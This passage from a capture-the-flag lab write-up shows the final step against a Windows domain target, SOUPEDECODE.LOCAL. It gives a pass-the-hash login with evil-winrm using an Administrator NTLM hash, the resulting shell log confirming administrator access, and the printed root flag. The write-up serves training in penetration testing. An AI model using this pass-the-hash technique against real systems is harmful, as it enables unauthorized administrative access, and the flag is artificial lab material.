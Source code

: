 This works, so we proceed to log in.

```bash
evil-winrm -i SOUPEDECODE.LOCAL -u 'Administrator' -H '8982babd4da89d33210779a6c5b078bd'
```

Info:
```
vil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
soupedecode\administrator
*Evil-WinRM* PS C:\Users\Administrator\Documents>
``` 

We now have Administrator level access!

Inside the `Desktop` folder we find the `root flag`:

```
d41d8cd98f00b204e9800998ecf8427e
```